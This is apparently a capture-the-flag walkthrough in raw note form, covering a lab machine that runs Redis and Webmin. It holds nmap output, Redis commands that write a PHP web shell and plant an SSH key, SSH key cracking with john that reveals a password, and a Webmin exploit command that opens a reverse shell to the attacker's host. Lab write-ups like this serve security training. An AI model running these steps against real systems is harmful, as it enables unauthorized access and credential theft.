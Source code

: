 PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: E234E3E8040EFB1ACD7028330A956EBF
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: 91549383E709F4F1DD6C8DAB07890301
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel




![](2021-02-24-13-51-27.png)

![](2021-02-24-13-51-35.png)

![](2021-02-24-13-54-00.png)



https://github.com/roughiz/Webmin-1.910-Exploit-Script


redis-cli -h 10.10.10.160 -p 6379 ping
PONG



10.10.10.160:6379> CONFIG GET databases
1) "databases"
2) "16"
10.10.10.160:6379> INFO keyspace
# Keyspace



no data in redis?



![](2021-02-24-14-14-56.png)


10.10.10.160:6379> config set dir /var/www/html/
OK
10.10.10.160:6379> config set dir /var/www/html/upload/
OK
10.10.10.160:6379> config set dbfilename redis.php
OK
10.10.10.160:6379> set test1 "<?php system($_REQUEST['cmd]); ?>"
OK
10.10.10.160:6379> save
(error) ERR



10.10.10.160:6379> config set dir /tmp/
OK
10.10.10.160:6379> config set dbfilename redis.php
OK
10.10.10.160:6379> set test1 "<?php system($_REQUEST['cmd]); ?>"
OK
10.10.10.160:6379> save
OK



config set dir /var/lib/redis/.ssh

ssh-keygen -t rsa

(echo -e "\n\n"; cat .id_rsa.pub; echo -e "\n\n") > foo.txt


cat foo.txt | redis-cli -h 10.10.10.160 -x set crackit


ssh -i id_rsa redis@10.10.10.160



/var/lib/redis/6379/dump.rdb

/webmin-setup.out


/var/log/redis/redis-server.log

-rwxr-xr-x 1 Matt Matt 1743 Aug 26  2019 /opt/id_rsa.bak


/etc/redis/redis.conf


/usr/share/john/ssh2john.py matt-rsa > matt-rsa.hash

john --wordlist=~/htb/rockyou.txt matt-rsa.hash 

computer2008     (matt-rsa)




kali@kali:~/htb/boxes/10.10.10.160$ ssh -i matt-rsa Matt@10.10.10.160
Enter passphrase for key 'matt-rsa': 
Connection closed by 10.10.10.160 port 22



su - Matt


Webmin:
Matt:computer2008
https://10.10.10.160:10000/sysinfo.cgi?xnavigation=1




use the webmin exploit from before:

python webmin_exploit.py --rhost 10.10.10.160 --lhost 10.10.14.8 --lport 1234 -u Matt -p computer2008 -s true

![](2021-02-24-15-24-45.png)